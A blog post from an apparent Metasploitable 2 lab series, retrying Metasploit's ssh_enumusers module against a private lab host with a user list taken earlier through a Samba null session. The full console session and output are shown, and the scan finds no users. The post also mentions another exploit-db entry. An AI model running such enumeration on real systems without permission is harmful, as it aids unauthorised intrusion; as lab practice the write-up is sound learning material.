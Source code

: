 # SSH follow up

Since I did my last post I have been meaning to write a follow up on the failed attempt at using: `auxiliary/scanner/ssh/ssh_enumusers`.
I wanted to figure out what went wrong and if the vulnerability was even applicable. Since I have a list of all the users now I can try 
the enumeration again with the known users as the user name list.

## Another go

I managed to get a list of al the users during [this](https://filimon-danopoulos.github.io/posts/2014-11-15_Metasploitable-2-part-one.html) exercise by exploiting
a null session vulnerability in Samba. I saved it to the file `users.lst` so let's launch the exploit with that file.

    msf > use auxiliary/scanner/ssh/ssh_enumusers 
    msf auxiliary(ssh_enumusers) > show option
    [-] Invalid parameter "option", use "show -h" for more information
    msf auxiliary(ssh_enumusers) > show options

    Module options (auxiliary/scanner/ssh/ssh_enumusers):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       Proxies                     no        Use a proxy chain
       RHOSTS                      yes       The target address range or CIDR identifier
       RPORT      22               yes       The target port
       THREADS    1                yes       The number of concurrent threads
       THRESHOLD  10               yes       Amount of seconds needed before a user is considered found
       USER_FILE                   yes       File containing usernames, one per line

    msf auxiliary(ssh_enumusers) > set USER_FILE users.lst 
    USER_FILE => users.lst
    msf auxiliary(ssh_enumusers) > set RHOSTS 192.168.56.103
    RHOSTS => 192.168.56.103
    msf auxiliary(ssh_enumusers) > run

    [*] 192.168.56.103:22 - SSH - Checking for false positives
    [*] 192.168.56.103:22 - SSH - Starting scan
    [!] 192.168.56.103:22 - SSH - User 'nobody' not found
    [!] 192.168.56.103:22 - SSH - User 'bind' not found
    [!] 192.168.56.103:22 - SSH - User 'proxy' not found
    [!] 192.168.56.103:22 - SSH - User 'syslog' not found
    [!] 192.168.56.103:22 - SSH - User 'user' not found
    [!] 192.168.56.103:22 - SSH - User 'www-data' not found
    [!] 192.168.56.103:22 - SSH - User 'root' not found
    [!] 192.168.56.103:22 - SSH - User 'news' not found
    [!] 192.168.56.103:22 - SSH - User 'postgres' not found
    [!] 192.168.56.103:22 - SSH - User 'bin' not found
    [!] 192.168.56.103:22 - SSH - User 'mail' not found
    [!] 192.168.56.103:22 - SSH - User 'distccd' not found
    [!] 192.168.56.103:22 - SSH - User 'proftpd' not found
    [!] 192.168.56.103:22 - SSH - User 'dhcp' not found
    [!] 192.168.56.103:22 - SSH - User 'daemon' not found
    [!] 192.168.56.103:22 - SSH - User 'sshd' not found
    [!] 192.168.56.103:22 - SSH - User 'man' not found
    [!] 192.168.56.103:22 - SSH - User 'lp' not found
    [!] 192.168.56.103:22 - SSH - User 'mysql' not found
    [!] 192.168.56.103:22 - SSH - User 'gnats' not found
    [!] 192.168.56.103:22 - SSH - User 'libuuid' not found
    [!] 192.168.56.103:22 - SSH - User 'backup' not found
    [!] 192.168.56.103:22 - SSH - User 'msfadmin' not found
    [!] 192.168.56.103:22 - SSH - User 'telnetd' not found
    [!] 192.168.56.103:22 - SSH - User 'sys' not found
    [!] 192.168.56.103:22 - SSH - User 'klog' not found
    [!] 192.168.56.103:22 - SSH - User 'postfix' not found
    [!] 192.168.56.103:22 - SSH - User 'service' not found
    [!] 192.168.56.103:22 - SSH - User 'list' not found
    [!] 192.168.56.103:22 - SSH - User 'irc' not found
    [!] 192.168.56.103:22 - SSH - User 'ftp' not found
    [!] 192.168.56.103:22 - SSH - User 'tomcat55' not found
    [!] 192.168.56.103:22 - SSH - User 'sync' not found
    [!] 192.168.56.103:22 - SSH - User 'uucp' not found
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    
Not a single user found, but we know that all users exist! That means that this version of SSH is not actually vulnerable to this attack.
I have done some searching about this version online and it seems like it suffers from another vulnerability namely [this](http://www.exploit-db.com/exploits/5720/) one on
http://www.exploit-db.com/. Who knows I might come around doing that if I get bored enough...



